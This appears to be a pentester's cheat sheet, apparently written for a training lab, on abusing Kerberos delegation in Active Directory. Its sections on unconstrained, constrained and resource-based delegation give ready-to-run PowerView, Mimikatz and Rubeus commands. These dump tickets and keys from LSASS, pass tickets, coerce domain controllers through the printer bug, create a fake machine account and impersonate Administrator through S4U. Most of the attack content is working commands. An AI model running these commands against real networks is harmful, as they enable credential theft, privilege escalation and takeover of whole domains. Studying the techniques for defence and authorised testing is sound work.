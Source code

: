 # Delegations

Kerberos delegation allows services to impersonate the user in order to communicate with another service and perform actions on behalf the user.

## Unconstrained Delegation

Unconstrained Delegation allowing any service to use a user TGT in order to communicate with the **any** other service.

The TGT will be stored in the LSASS process.

### Enumerate

{% tabs %}
{% tab title="PowerView" %}
```powershell
Get-DomainComputer -UnConstrained
```
{% endtab %}

{% tab title="AD Module" %}
```powershell
Get-ADComputer -Filter {TrustedForDelegation -eq $True}
Get-ADUser -Filter {TrustedForDelegation -eq $True}
```
{% endtab %}
{% endtabs %}

### Exploitation

It is possible to extract the TGTs from the service's LSASS process using `Mimikatz` and perform pass the ticket.

```powershell
# Extract the TGT
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'

# Pass the ticket
Invoke-Mimikatz -Command '"kerberos::ptt TGT.kirbi"' 
Rubeus.exe ptt /ticket:"base64 | file.kirbi" # Rubues allows base64 format as alternative
```

### Printer bug

The printer bug uses an RPC call of MS-RPRN which allows any domain user can force any machine that running the Spooler service to connect to second a machine of the domain user's choice.

1. Run on compromised Server Rubeus monitor

```powershell
Rubeus.exe monitor /interval:5 /nowrap
```

2. Run on compromised Domain User the RPC Call using [SpoolSample](https://github.com/leechristensen/SpoolSample) \ [Coercer](https://github.com/p0dalirius/Coercer)

```powershell
MS-RPRN.exe \\dc.machine.local \\compromised.machine.local
```

3. Pass The Ticket
4. DC Sync

## Constrained Delegation

Constrained Delegation allowing **specified** services on **specified** computers to use a user TGT in order to communicate with the **any** other service.

in order to create a more restrictive delegation mechanism, Microsoft develop two Kerberos extensions known as  Service for user (S4U):

* Service for User to Self  (S4U2self) - allows a service to obtain forwardable TGS to itself on behalf of user.
* Service for User to Proxy (S4U2proxy) - allows a service to obtain a TGS to another service on behalf of user.\
  Note that the other services are from white list controlled by `msDS-AllowedToDelegateTo` attribute.

### Enumerate

{% tabs %}
{% tab title="PowerView" %}
<pre class="language-powershell"><code class="lang-powershell"><strong>Get-DomainUser -TrustedToAuth
</strong>Get-DomainComputer -TrustedToAuth
</code></pre>
{% endtab %}

{% tab title="AD Module" %}
```powershell
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo
```
{% endtab %}
{% endtabs %}

### Exploitation

{% code overflow="wrap" %}
```powershell
Rubeus.exe s4u /user:websvc /aes256:<aes256_key> /impersonateuser:Administrator /msdsspn:CIFS/dcorp-mssql.dollarcorp.moneycorp.local /ptt

# You can change the target service in the ticket
Rubeus.exe s4u /user:dcorp-adminsrv$ /aes256:<aes256_key> /impersonateuser:Administrator /msdsspn:time/dcorp-dc.dollarcorp.moneycorp.LOCAL /altservice:ldap /ptt
```
{% endcode %}

Check if worked

```powershell
ls \\dcorp-mssql.dollarcorp.moneycorp.local\c$ 
```

## Resource Based Delegation

Instead of the white list of SPNs controlled by `msDS-AllowedToDelegateTo` attribute, resource based controlled by the `msDS-AllowedToActOnBehalfOfOtherIdentity`

To abuse RBCD we need Write permissions over the target machine `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute.

### Enumerate

```powershell
# Check if allowed to create machines
Get-DomainObject -Identity "dc=domain,dc=local" -Domain domain.local | select ms-ds-machineaccountquota

# Check Write premissions to modify msDS-AllowedToActOnBehalfOfOtherIdentity attribute on target machine
Find-InterestingDomainACL | ?{$_.identityreferencename -match 'ciadmin'}

# Check if RBCD is set using PowerView - This can be used to verify also
Get-DomainRBCD  
```

### Exploitation

#### Create fake machine

```powershell
# Using Powermad
import-module powermad
New-MachineAccount -MachineAccount dcorp-student483 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```

#### Change security descriptor

<pre class="language-powershell"><code class="lang-powershell">$TargetComputer = 'dcorp-mgmt'
$FakeComputer = 'dcorp-student483'

# Using PowerView
$ComputerSid = Get-DomainComputer $FakeComputer -Properties objectsid | Select -Expand objectsid
<strong>$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$ComputerSid)"
</strong>$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer $TargetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}

# One liner using PowerView
Set-DomainRBCD -Identity $TargetComputer -DelegateFrom $FakeComputer -Verbose   
# Using AD Module
Set-ADComputer -Identity dcorp-mgmt -PrincipalsAllowedToDelegateToAccount $FakeComputer 

# Verify
Get-DomainComputer dcorp-mgmt -Properties 'msds-allowedtoactonbehalfofotheridentity'
# Verify Result
msds-allowedtoactonbehalfofotheridentity
----------------------------------------
{1, 0, 4, 128...}

# Verify using ADModule
Get-ADComputer dcorp-mgmt -Properties PrincipalsAllowedToDelegateToAccount
</code></pre>

#### Abuse using Rubeus

```powershell
## Get the fake machine hash
Rubeus.exe hash /password:123456 /user:dcorp-student483 /domain:dollarcorp.moneycorp.local
## If used AD Module need to extract the hash from lsass using mimikatz
Invoke-Mimikatz -Command '"sekurlsa::ekeys"'

# Imporsnate
Rubeus.exe s4u /user:dcorp-student483$ /rc4:32ED87BDB5FDC5E9CBA88547376818D4 /impersonateuser:Administrator /msdsspn:http/dcorp-mgmt /ptt

# Verify (winrs on this case)
winrs -r:dcorp-mgmt cmd
```
